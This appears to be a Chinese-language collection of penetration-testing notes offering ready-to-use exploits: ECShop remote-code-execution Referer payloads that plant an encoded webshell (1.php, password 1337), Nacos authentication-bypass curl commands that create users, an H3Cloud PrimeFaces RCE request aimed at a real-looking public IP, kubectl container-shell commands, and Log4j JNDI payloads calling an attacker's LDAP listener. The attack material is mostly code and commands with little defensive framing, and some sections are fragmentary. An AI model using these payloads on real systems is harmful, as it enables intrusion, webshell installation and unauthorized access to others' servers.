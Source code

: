 # Web 安全

**同源方式执行（SOME）攻击**

**原理及危害**

> json可以理解为，用户可以控制输入的一种JS函数。并且这种函数可以跨域访问。这就很恐怖了。比如某些存在父子网页的并且还为做过滤，很有可能你一点击后就会自动执行某些链接，如自动关注，点赞等。

**攻击条件**
> 存在用户可控函数点，读取用户输入执行对应javascript代码（即寻找JSONP点，通常以get方法callback名传入）

**SOME复现**

通过一个大佬写的SOME靶场来练习复现:



### ECShop <= 2.x/3.6.x/3.0.x 版本远程代码执行高危漏洞利用

[ECShop <= 2.7.x 全系列版本远程代码执行高危漏洞利用](https://www.vulnspy.com/cn-ecshop-2.7.x-rce-exploit/)

[ECShop <= 2.x/3.6.x/3.0.x 版本远程代码执行高危漏洞利用](https://www.vulnspy.com/cn-ecshop-3.x.x-rce-exploit/)

**打开 ECSHOP 实验地址**

![](PHP绕过/绕过%20disable_functions/img/4.png)

**发送 Payload 执行 phpinfo();**

`将***.vsplate.me换成您的实验地址`

在终端中执行：

`curl http://***.vsplate.me/user.php -d "action=login&vulnspy=phpinfo();exit;" -H 'Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:3:{s:3:"num";s:207:"*/ select 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:2:"id";s:9:"'"'"' union/*";s:4:"name";s:3:"ads";}45ea207d7a2b68c49582d2d22adf953a'`

EXP与一个小脚本
2.x
phpinfo():
```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:110:"*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -";s:2:"id";s:4:"' /*";}554fcae493e564ee0dc75bdf2ebf94ca
```
webshell:
```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}
```
　　会在网站根目录生成1.php，密码：1337

3.x
phpinfo():
```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
```
webshell:
```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:289:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
```
会在网站根目录生成1.php，密码：1337



![LARAVEL <= V8.4.2调试模式：远程执行代码](https://www.ambionics.io/blog/laravel-debug-rce)




[nacos绕过身份验证](https://github.com/alibaba/nacos/issues/4593)

漏洞复现

1. 访问用户列表界面

```bash
curl XGET 'http://47.93.46.78:9090/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'


curl XGET 'http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'
```

此时认证被绕过，并且返回用户列表数据

```json
{
    "totalCount": 1,
    "pageNumber": 1,
    "pagesAvailable": 1,
    "pageItems": [
        {
            "username": "nacos",
            "password": "$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"
        }
    ]
}
```

2. 添加新用户

```bash
curl -XPOST 'http://127.0.0.1:8848/nacos/v1/auth/users?username=test&password=test' -H 'User-Agent: Nacos-Server'
```

此时绕过身份验证，并添加了新用户
```json
{
    "code":200,
    "message":"create user ok!",
    "data":null
}
```


3. 再次查看用户列表

```bash
curl XGET 'http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'
```

此时绕过身份验证成功创建了一个用户。

```json
{
    "totalCount": 2,
    "pageNumber": 1,
    "pagesAvailable": 1,
    "pageItems": [
        {
            "username": "nacos",
            "password": "$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"
        },
        {
            "username": "test",
            "password": "$2a$10$5Z1Kbm99AbBFN7y8Dd3.V.UGmeJX8nWKG47aPXXMuupC7kLe8lKIu"
        }
    ]
}
```

[nacos后台存在注入]

`命名空间 - 操作 - 详情 - 抓包` 1.4,1.3版本 存在该SQL注入漏洞。


H3CLOUD云管理平台

```
POST /cloud/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 2.88.154.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Connection: Keep-alive
Content-Length: 1563

pfdrt=sc&ln=primefaces&pfdrid=uMKljPgnOTVxmOB%2BH6%2FQEPW9ghJMGL3PRdkfmbiiPkUDzOAoSQnmBt4dYyjvjGhVqupdmBV%2FKAe9gtw54DSQCl72JjEAsHTRvxAuJC%2B%2FIFzB8dhqyGafOLqDOqc4QwUqLOJ5KuwGRarsPnIcJJwQQ7fEGzDwgaD0Njf%2FcNrT5NsETV8ToCfDLgkzjKVoz1ghGlbYnrjgqWarDvBnuv%2BEo5hxA5sgRQcWsFs1aN0zI9h8ecWvxGVmreIAuWduuetMakDq7ccNwStDSn2W6c%2BGvDYH7pKUiyBaGv9gshhhVGunrKvtJmJf04rVOy%2BZLezLj6vK%2BpVFyKR7s8xN5Ol1tz%2FG0VTJWYtaIwJ8rcWJLtVeLnXMlEcKBqd4yAtVfQNLA5AYtNBHneYyGZKAGivVYteZzG1IiJBtuZjHlE3kaH2N2XDLcOJKfyM%2FcwqYIl9PUvfC2Xh63Wh4yCFKJZGA2W0bnzXs8jdjMQoiKZnZiqRyDqkr5PwWqW16%2FI7eog15OBl4Kco%2FVjHHu8Mzg5DOvNevzs7hejq6rdj4T4AEDVrPMQS0HaIH%2BN7wC8zMZWsCJkXkY8GDcnOjhiwhQEL0l68qrO%2BEb%2F60MLarNPqOIBhF3RWB25h3q3vyESuWGkcTjJLlYOxHVJh3VhCou7OICpx3NcTTdwaRLlw7sMIUbF%2FciVuZGssKeVT%2FgR3nyoGuEg3WdOdM5tLfIthl1ruwVeQ7FoUcFU6RhZd0TO88HRsYXfaaRyC5HiSzRNn2DpnyzBIaZ8GDmz8AtbXt57uuUPRgyhdbZjIJx%2FqFUj%2BDikXHLvbUMrMlNAqSFJpqoy%2FQywVdBmlVdx%2BvJelZEK%2BBwNF9J4p%2F1fQ8wJZL2LB9SnqxAKr5kdCs0H%2FvouGHAXJZ%2BJzx5gcCw5h6%2Fp3ZkZMnMhkPMGWYIhFyWSSQwm6zmSZh1vRKfGRYd36aiRKgf3AynLVfTvxqPzqFh8BJUZ5Mh3V9R6D%2FukinKlX99zSUlQaueU22fj2jCgzvbpYwBUpD6a6tEoModbqMSIr0r7kYpE3tWAaF0ww4INtv2zUoQCRKo5BqCZFyaXrLnj7oA6RGm7ziH6xlFrOxtRd%2BLylDFB3dcYIgZtZoaSMAV3pyNoOzHy%2B1UtHe1nL97jJUCjUEbIOUPn70hyab29iHYAf3%2B9h0aurkyJVR28jIQlF4nT0nZqpixP%2Fnc0zrGppyu8dFzMqSqhRJgIkRrETErXPQ9sl%2BzoSf6CNta5ssizanfqqCmbwcvJkAlnPCP5OJhVes7lKCMlGH%2BOwPjT2xMuT6zaTMu3UMXeTd7U8yImpSbwTLhqcbaygXt8hhGSn5Qr7UQymKkAZGNKHGBbHeBIrEdjnVphcw9L2BjmaE%2BlsjMhGqFH6XWP5GD8FeHFtuY8bz08F4Wjt5wAeUZQOI4rSTpzgssoS1vbjJGzFukA07ahU%3D&cmd=whoami
```


**K8S获取容器shell**

```
kubtctl.exe -s ip:port get pods
kubectl.exe -s ip:port --namespace=default exec -it <CONTAINER ID> bash
```



**判断是否是站库分离**


1
```
（1）查询web服务器名

LENOVO-GH*****---select @@servername; 

（2）查询数据库服务器名

DESKTOP-1HV****---select host_name();

对比两个查询结果，即可判断。相同则同站同库，不同就是站库分离
```
2
```
找Web端IP地址select * from information_schema.PROCESSLIST;
```

---

## LOG4J

用这个起监听
https://github.com/feihong-cs/JNDIExploit

然后回弹地址用
```
${jndi:ldap://你的ip:你的端口/Deserialization/CommonsBeanutils2/TomcatEcho}
```

请求头里带
cmd: ls

就是直接回显的了
```
${jndi:ldap://xxx.dnslog.cn/exp}
```
